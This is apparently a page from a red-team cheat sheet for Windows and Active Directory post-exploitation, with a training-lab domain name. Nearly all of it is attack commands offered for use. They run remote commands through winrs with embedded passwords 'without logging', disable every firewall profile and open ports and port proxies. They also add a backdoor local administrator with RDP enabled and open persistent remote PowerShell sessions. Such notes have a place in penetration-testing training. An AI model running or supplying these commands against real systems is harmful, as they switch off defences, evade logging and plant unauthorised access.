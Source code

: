     # Use winrs for ps remoting without logging
    winrs -remote:server1 -u:server1\administrator -p:Pass@1234 hostname
    winrs -remote:US-MAILMGMT -u:US-MAILMGMT\administrator -p:';jv-2@6e#m]!8O' cmd.exe

    # Runas cmd as another user
    runas /netonly /user:us\serviceaccount  cmd.exe

    # Manage Firewall Port Access
    netsh advfirewall firewall add rule name="Allow Port 8080" protocol=TCP dir=in localport=8080 action=allow
    netsh advfirewall firewall add rule name="Allow Port 8081" protocol=TCP dir=in localport=8081 action=allow
    netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=192.168.100.X

    # disable firewall
    Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
    powershell.exe -c 'Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False'

    # Add user to local admin and RDP group and enable RDP on firewall
    net user <USERNAME> <PASSWORD> /add /Y  && net localgroup administrators <USERNAME> /add && net localgroup "Remote Desktop Users" <USERNAME> /add && reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f && netsh advfirewall firewall set rule group="remote desktop" new enable=Yes

    # Enter session - Execute Stateful commands using Enter-PSSession ( persistence )

    $sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
    $sess
    Enter-PSSession -Session $sess

    [dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> $proc = Get-Process
    [dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> exit

    Enter-PSSession -Session $sess

    [dcorp-adminsrv.dollarcorp.moneycorp.local]:PS> proc
    Will list current process



    # language mode
    $ExecutionContext.SessionState.LanguageMode
